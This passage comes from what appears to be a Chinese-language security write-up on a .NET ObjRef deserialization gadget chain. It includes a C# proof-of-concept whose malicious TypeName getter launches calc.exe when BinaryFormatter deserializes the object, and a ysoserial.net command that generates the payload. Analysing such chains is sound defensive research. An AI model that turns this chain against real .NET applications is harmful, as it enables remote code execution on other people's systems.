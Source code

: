 2. **序列化与传递**
    - 使用 `BinaryFormatter` 或 `NetDataContractSerializer`，将对象树序列化为二进制数据。
    - 数据被传递到目标应用。

3. **反序列化触发链条**
    - 目标应用反序列化时，`ObjRef` 的类型信息和通道信息被自动还原和访问。
    - 恶意实现的回调或属性被触发，执行任意代码。

---

### 15.4 伪代码示例

```csharp
// 恶意 TypeInfo 实现
[Serializable]
public class EvilTypeInfo : IRemotingTypeInfo
{
    public string TypeName { get { System.Diagnostics.Process.Start("calc.exe"); return null; } }
    public bool CanCastTo(Type fromType, object o) => true;
}

// 构造 ObjRef，持有恶意 TypeInfo
var objRef = new ObjRef();
objRef.TypeInfo = new EvilTypeInfo();

// 序列化 objRef
var formatter = new BinaryFormatter();
formatter.Serialize(stream, objRef);

// 反序列化时触发链条
formatter.Deserialize(stream);
```

---

### 15.5 触发点与关键代码

- **ObjRef.TypeInfo/ChannelInfo**  
    反序列化时自动访问，攻击者可控。
- **IRemotingTypeInfo/IRemotingTypeInfo.TypeName**  
    属性 getter 可执行任意代码。

---

### 15.6 影响范围

- 影响所有使用 `BinaryFormatter`、`NetDataContractSerializer` 反序列化且未做类型限制的 .NET Framework 应用，尤其是启用了 .NET Remoting 的场景。
- 主要影响 .NET Framework 2.0/3.5/4.x，.NET Core/5/6 默认不包含 Remoting。

### 15.7 参考利用链（ysoserial.net）

```bash
ysoserial.exe -g ObjRef -f BinaryFormatter -o base64 -c "calc.exe"
```

---
